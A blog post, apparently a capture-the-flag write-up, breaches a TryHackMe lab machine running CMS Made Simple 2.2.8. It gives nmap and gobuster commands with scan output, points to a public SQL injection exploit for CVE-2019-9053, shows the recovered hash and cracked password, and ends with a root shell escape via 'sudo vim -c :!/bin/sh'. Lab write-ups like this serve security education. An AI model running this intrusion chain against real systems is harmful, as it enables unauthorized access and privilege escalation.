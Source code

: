 ```yaml
---
layout: post
title: "CVE-2019-9053"
author: "Nicholas Coleman"
date: 2025-04-11
tags: tryhackme
---
```


## Breaching a Vulnerable Site

I begin by scanning the IP with nmap: 

`nmap -sC -sV -oA ctf1/scan 10.10.75.135`

Results:
```  
Nmap scan report for 10.10.75.135
Host is up (0.12s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT 	STATE SERVICE VERSION
21/tcp   open  ftp 	vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|  	Connected to ::ffff:10.6.25.18
|  	Logged in as ftp
|  	TYPE: ASCII
|  	No session bandwidth limit
|  	Session timeout in seconds is 300
|  	Control connection is plain text
|  	Data connections will be plain text
|  	At session startup, client count was 2
|  	vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http	Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh 	OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 10 16:29:56 2025 -- 1 IP address (1 host up) scanned in 53.75 seconds
```

From the nmap scan, we can see that there are 3 ports open: **21, 80, and 2222**. All of these can be useful for us when trying to think of ways to breach the system. The attack surface of this system is nice to work with - especially when one of the vectors is exploiting the insecure design.

The web server this machine is hosting redirects to the default Apache webpage. But this does not *necessarily* indicate the site is empty, so I decided to look deeper with gobuster to see if there was anything else hidden. **Gobuster** is really handy and easy to use, not to mention - a very fast tool.

Using this command:

`gobuster dir -u 10.10.75.135 -w directory-list-2.3-medium.txt -t 100`

Gobuster shows me that there is indeed another page with the path: `/simple`.

Navigating to /simple brings me to a website called CMS Made Simple. The version is `2.2.8`. The version of the website out in the open like this makes my job a lot easier when trying to find exploits that will work.

![CMS](/security.github.io/images/simple/cms_simple.png)

After a quick Google search, I was able to find that this version of CMS Made Simple is vulnerable to a SQL injection exploit (**CVE-2019-9053**).

https://www.exploit-db.com/exploits/46635

This SQLi Python script extracts the hashed password and cracks it, enabling access to the target system. The results were:

```  
Username: mitch  
Email: admin@admin.com  
Password: 0c01f4468bd75d7a84c7eb73846e8d96  
Cracked Password: secret  
```

Now I am able to ssh into mitch's computer using: `ssh mitch@10.10.75.135 -p 2222` with the password:

![SSH](/security.github.io/images/simple/SSH.png)

Once inside, the User flag: **user.txt** is readily available for me to capture. Easy! 

My next order of business is to see what sudo commands the users here can run. Using `sudo -l`, I am able to see that Mitch is able to run `/usr/bin/vim` as a root user without a password. 

After looking online, I found out that Vim can be used to *break out of restricted environments by spawning an interactive system shell*. This is a huge vulnerability and gives us the ability to escalate our privileges to become the root user - with this simple command: `sudo vim -c ':!/bin/sh'`.

![sudo vim](/security.github.io/images/simple/sudovim.png)

There you go - I have achieved privilege escalation. After navigating to the root directory, I was able to finally find the root flag in **root.txt**:

![final](/security.github.io/images/simple/final.png)

Whoever is running this website needs to *seriously* work on the security!
